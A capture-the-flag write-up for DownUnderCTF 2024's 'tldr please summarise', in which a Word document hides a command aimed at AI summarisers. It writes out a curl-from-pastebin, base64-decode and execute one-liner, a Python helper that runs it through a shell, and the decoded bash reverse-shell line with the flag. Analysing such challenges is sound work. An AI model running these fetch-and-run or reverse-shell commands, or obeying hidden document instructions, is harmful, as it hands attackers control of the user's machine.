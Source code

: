 
<!DOCTYPE html>
<html>

<body>
    <h1>tldr please summarise- down underctf 2024</h1>

    <h2>Challenge Description</h2>
    <p> 
I thought I was being 1337 by asking AI to help me solve challenges,
<a href="https://cybersecctf.github.io/blog/2024/downunderctf2024/tldrpleasesummarise/EmuWar.docx">EmuWar.doc</a> now I have to reinstall Windows again. Can you help me out by find the flag in this document?

</p>
 
    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
i open file and find a unreadable text inside it
<img src=" https://cybersecctf.github.io/blog/2024/downunderctf2024/tldrpleasesummarise/curllocation.png" alt="ctf quetion image" class="inline"/>

so get it by string temp.sh because run of this is possible  

<code>curl -sL https://pastebin.com/raw/ysYcKmbu | base64 -d > temp.sh && chmod +x temp.sh && ./temp.sh</code>

and search DUCTF  inside command output  and find flag with this code

<pre>
#python
import re
import subprocess
import os
import blog
def solve(file_path, search="DUCTF"):
    # Check if the file exists
    print("Args",file_path)
    command=""   
    if not os.path.isfile(file_path):
        command=file_path
    else: 
     # Read the command from the file
     with open(file_path, 'r') as file:
        command = file.read().strip()
 
    # Append commands to save output to temp.sh and run strings on it
    full_command = f"{command} > temp.sh && chmod +x temp.sh && strings temp.sh"
    
    # Debugging: Print the command to verify
    print("Full command to execute:")
    print(command,full_command)
    
    # Execute the full command and capture the output
    result = subprocess.run(full_command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)

    # Combine stdout and stderr to cover all output
    combined_output = result.stdout + result.stderr

    
    results=[]
    # Search for the search string in the command output
    for line in     combined_output.splitlines() : 
     if search in line:
        results.append(line)
    if len(results)==0:
        return f"Flag containing '{search}' not found in the command output."
    else:
        for x in  results:
             print(x)

if __name__ == "__main__" :
 # Example usage
 command = blog.set("curl -sL https://pastebin.com/raw/ysYcKmbu | base64 -d",1)
 search = blog.set("DUCTF",2)

 print(solve(command,search))



</pre> 
and full output is 
<code>
ull command to execute:
curl -sL https://pastebin.com/raw/ysYcKmbu | base64 -d > temp.sh && chmod +x temp.sh && strings temp.sh
Command output:
bash -i >& /dev/tcp/261.263.263.267/DUCTF{chatgpt_I_n33d_2_3scap3} 0>&1

DUCTF{chatgpt_I_n33d_2_3scap3}
>>> 

</code>       
that have flag       
    
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">DUCTF{chatgpt_I_n33d_2_3scap3}
</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for misc and find string inside sh command and file </p>
</body>
</html>


